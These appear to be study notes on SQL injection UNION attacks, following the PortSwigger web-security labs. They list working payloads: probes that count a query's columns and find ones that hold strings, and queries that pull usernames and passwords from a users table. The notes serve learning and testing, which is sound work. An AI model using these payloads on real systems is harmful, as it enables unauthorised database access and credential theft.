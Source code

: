 https://portswigger.net/web-security/sql-injection/cheat-sheet

# 1 Determining the number of columns required in an SQL injection UNION attack

' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.


' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.

# 2 Finding columns with a useful data type in an SQL injection UNION attack

' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--

# 3 Using an SQL injection UNION attack to retrieve interesting data

' UNION SELECT username, password FROM users--

# 4 Retrieving multiple values within a single column

' UNION SELECT username || '~' || password FROM users--